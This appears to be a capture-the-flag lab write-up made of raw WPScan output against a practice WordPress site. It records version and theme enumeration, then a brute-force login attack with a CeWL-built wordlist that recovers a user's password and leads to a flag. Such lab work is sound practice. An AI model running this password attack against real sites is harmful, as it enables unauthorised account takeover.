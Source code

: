 ```

[+] WordPress version 5.6.1 identified (Insecure, released on 2021-02-03).
 | Found By: Rss Generator (Passive Detection)
 |  - http://repairshop.sbrc/?feed=comments-rss2, <generator>https://wordpress.org/?v=5.6.1</generator>
 | Confirmed By: Emoji Settings (Passive Detection)
 |  - http://repairshop.sbrc/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.6.1'

[+] WordPress theme in use: computer
 | Location: http://repairshop.sbrc/wp-content/themes/computer/
 | Last Updated: 2021-10-14T00:00:00.000Z
 | Readme: http://repairshop.sbrc/wp-content/themes/computer/readme.txt
 | [!] The version is out of date, the latest version is 1.2
 | Style URL: http://repairshop.sbrc/wp-content/themes/computer/style.css?ver=5.6.1
 | Style Name: Computer
 | Style URI: https://flythemes.net/wordpress-themes/free-computer-wordpress-theme/
 | Description: Computer is a responsive WordPress theme crafted for any computer, mobile phones, tablet, Mac or ele...
 | Author: Flythemes
 | Author URI: https://flythemes.net
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://repairshop.sbrc/wp-content/themes/computer/style.css?ver=5.6.1, Match: 'Version: 1.1'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <=> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Wp Login against 1 user/s
Trying theo / CeWL 5.3 (Heading Upwards) Robin Wood (robin@digi.ninja) (https://[SUCCESS] - theo / Inverkeithing                                                
Trying theo / Shop Time: 00:00:01 <           > (10 / 149)  6.71%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: theo, Password: Inverkeithing

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Thu Feb 16 05:16:31 2023
[+] Requests Done: 149
[+] Cached Requests: 36
[+] Data Sent: 35.026 KB
[+] Data Received: 88.604 KB
[+] Memory used: 303.477 MB
[+] Elapsed time: 00:00:06

now login

http://10.10.178.103:9999/
Well done! Here is the flag: SBRC{ODhiOTQ3ZTk0NzJhMWI1NTE5MGUyY2Vj}

```
